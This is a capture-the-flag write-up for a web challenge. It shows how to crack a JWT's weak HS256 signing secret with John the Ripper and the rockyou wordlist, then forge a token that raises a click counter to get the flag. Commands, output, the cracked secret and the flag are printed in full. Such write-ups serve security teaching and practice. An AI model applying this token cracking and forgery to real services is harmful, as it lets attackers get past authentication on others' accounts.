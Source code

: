 # Cookie Clicker
Web, 25 points

## Description
> Cookies are yummy, Can you help me **rock** this cookie ?

## Solution

We enter the attached website and are presented with a login page containing just a username field. Proceeding as `admin`, we are presented with the following page:

```html
<div class="columns is-centered">
    <div class="column is-two-fifths-desktop is-two-fifths-tablet">
    <form action="/" method="post">
        <div class="field">
        <div class="control">
            <button class="button is-fullwidth is-dark">1000000 Clicks left to retrieve the flag</button>
        </div>
        </div>
    </form>
    </div>
</div>
<div class="field is-grouped" style="justify-content:center;">
    <div class="control">
    <div class="tags has-addons"><span class="tag is-light">Powered by</span><span class="tag is-dark">JWT</span></div>
    </div>
    <div class="control">
    <div class="tags has-addons"><a class="tag is-danger" href="/signout">Sign Out</a><span class="tag is-light">admin</span></div>
    </div>
</div>      
```

If we click the button, we arrive to a page requiring 999,999 clicks and so on. After a while, our session times out and we need to start from 1,000,000 again. Clearly, this is not the way to go.

Notice that the website is powered by JWT. Let's inspect the cookie set by the server:
```console
root@kali:/media/sf_CTFs/kaf/Cookie_Clicker# curl -s http://ctf.kaf.sh:3020/signin -X POST -d "username=admin" -v
*   Trying 34.89.220.233...
* TCP_NODELAY set
* Expire in 200 ms for 4 (transfer 0x55c9fa3e9d10)
* Connected to ctf.kaf.sh (34.89.220.233) port 3020 (#0)
> POST /signin HTTP/1.1
> Host: ctf.kaf.sh:3020
> User-Agent: curl/7.64.0
> Accept: */*
> Content-Length: 14
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 14 out of 14 bytes
< HTTP/1.1 302 Found
< X-Powered-By: Express
< Set-Cookie: jwtToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiY2xpY2tDb3VudGVyIjowLCJpYXQiOjE1NzY4NzE1NTIsImV4cCI6MTU3Njg3MTU4Mn0.vfxGfTOQfgtGr_nf5SHTnY0gT9khrtnVAvxHzb1F_tA; Path=/
< Location: /
< Vary: Accept
< Content-Type: text/plain; charset=utf-8
< Content-Length: 23
< Date: Fri, 20 Dec 2019 19:52:32 GMT
< Connection: keep-alive
<
* Connection #0 to host ctf.kaf.sh left intact
```

Using [this](https://jwt.io/) website, we can view the token's contents:
```javascript
{
  "username": "admin",
  "clickCounter": 0,
  "iat": 1576871552,
  "exp": 1576871582
}
```

We can try to crack it using the same technique used in the [JaWT Scratchpad](/2019_picoCTF/JaWT_Scratchpad.md) picoCTF challenge.

First, we convert the cookie to a format that [John the Ripper](https://www.openwall.com/john/) can understand:
```console
root@kali:/media/sf_CTFs/kaf/Cookie_Clicker# python ../../pico/JaWT_Scratchpad/jwt2john.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiY2xpY2tDb3VudGVyIjowLCJpYXQiOjE1NzY4NzE1NTIsImV4cCI6MTU3Njg3MTU4Mn0.vfxGfTOQfgtGr_nf5SHTnY0gT9khrtnVAvxHzb1F_tA > jwt.john
```

Then, we use `john` to perform a dictionary attack in an attempt to crack the password for the token. We'll use the `rockyou.txt` dictionary since that's what's hinted in the challenge description:
```console
root@kali:/media/sf_CTFs/kaf/Cookie_Clicker# ~/utils/john/run/john jwt.john  --wordlist=/root/utils/dictionaries/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Warning: OpenMP is disabled; a non-OpenMP build may be faster
Press 'q' or Ctrl-C to abort, almost any other key for status
mypinkipod       (?)
1g 0:00:00:01 DONE (2019-12-20 21:56) 0.8547g/s 1249Kp/s 1249Kc/s 1249KC/s mysheba..mypassone1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Using the recovered password (`mypinkipod`), we can modify the values in the token and resign it:
```javascript
{
  "username": "admin",
  "clickCounter": 1000000,
  "iat": 1577216031,
  "exp": 2577216061
}
```

Using the new token, we receive the flag:

```console
root@kali:/media/sf_CTFs/kaf/Cookie_Clicker# curl 'http://ctf.kaf.sh:3020/' -H 'Content-Type: application/x-www-form-urlencoded'  -H 'Cookie: jwtToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiY2xpY2tDb3VudGVyIjoxMDAwMDAwLCJpYXQiOjE1NzcyMTYwMzEsImV4cCI6MjU3NzIxNjA2MX0.ehYIgk8OioFY6e1PqJzJsf6iZQ-dp2SImAPNx8LHSZU' --data '' -L -s | grep KAF
            <div class="tags has-addons"><a class="tag is-danger" href="/signout">Sign Out</a><span class="tag is-light">KAF{koOK1E5_4rE_yUmmY_91Ve_mE_mOre}</span></div>
```